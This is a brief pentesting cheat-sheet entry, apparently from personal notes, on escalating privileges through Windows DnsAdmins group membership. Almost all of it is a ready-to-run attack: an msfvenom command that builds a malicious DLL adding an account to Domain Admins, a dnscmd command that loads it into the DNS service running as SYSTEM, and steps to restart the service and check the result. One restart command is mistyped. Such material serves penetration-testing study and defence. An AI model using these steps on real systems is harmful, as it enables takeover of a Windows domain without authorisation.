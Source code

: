 # DnsAdmins

The Windows DNS service supports custom plugins and can call functions from them to resolve name queries that are not in the scope of any locally hosted DNS zones

DNS service runs as **NT AUTHORITY\SYSTEM**

* Create malicious dll:

```
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```

* Download file to target
* Load dll as Member of DnsAdmins:

```
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
```

* Stop dns service: `sc stop dns` or `net stop dns`
* Start the service: `sc start dns` or `net start dn`
* `net group "Domain Admins" /dom` to check
